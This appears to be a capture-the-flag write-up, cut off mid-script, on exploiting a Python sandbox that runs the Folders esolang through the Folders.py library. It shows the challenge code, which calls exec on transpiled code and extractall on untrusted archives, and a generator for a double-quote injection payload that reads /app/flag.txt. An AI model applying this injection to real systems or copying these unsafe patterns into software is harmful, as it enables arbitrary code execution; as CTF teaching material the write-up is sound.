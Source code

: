 ## Challenge code:
```python
#!/usr/local/bin/python

import os
import shutil
import tarfile
from folders.folders import FolderAnalyzer, FolderTranspiler

TMP_DIR = '/tmp/program'
def unzip_tar_gz(hex_input):
    tar_gz_data = bytes.fromhex(hex_input)

    if os.path.exists(TMP_DIR):
        shutil.rmtree(TMP_DIR)
    os.makedirs(TMP_DIR, exist_ok=True)

    with open(TMP_DIR + '/archive.tar.gz', 'wb') as f:
        f.write(tar_gz_data)

    with tarfile.open(TMP_DIR + '/archive.tar.gz', 'r:gz', dereference=False) as tar:
        tar.extractall(TMP_DIR)

    os.remove(TMP_DIR + '/archive.tar.gz')

hex_input = input("> ")
unzip_tar_gz(hex_input)

tokens = FolderAnalyzer(TMP_DIR).lex()
code = FolderTranspiler(tokens).transpile()

exec(code)
```

This challenge uses the esolang [Folders](http://esolangs.org/wiki/Folders) in which your program is encoded in the directory structure of folders rather than in actual files.
We can submit our directory program to the challenge server in a tar.gz file and it then gets interpeted by the [Folders.py](https://github.com/SinaKhalili/Folders.py) python library.
Writing a program in the Folders language however isn't enough for us to be able to read flag.txt from the challenge server as the Folders language only supports some basic functions. Instead we can exploit the python library as it has code injection. When we encode a string for example in Folders this library that converts it to Python doesn't sanitize double quotes so we can simply include those in our string literal and provide whatever Python code we want after that.

We made this program to generate a folder tree that represent a string literal:
```python
import os

s = b'");print(open("/app/flag.txt").read());print("'

os.mkdir("gen/")

for i in range(len(s)):
    c = s[i]
    h = hex(c)[2:]

    os.mkdir(f"gen/{i}")
    os.mkdir(f"gen/{i}/hex1")
    os.mkdir(f"gen/{i}/hex2")

    a, b = bin(int(h[0], 16))[2:].rjust(4, "0"), bin(int(h[1], 16))[2:].rjust(4, "0")

    for j in range(len(a)):
        d = a[j]
```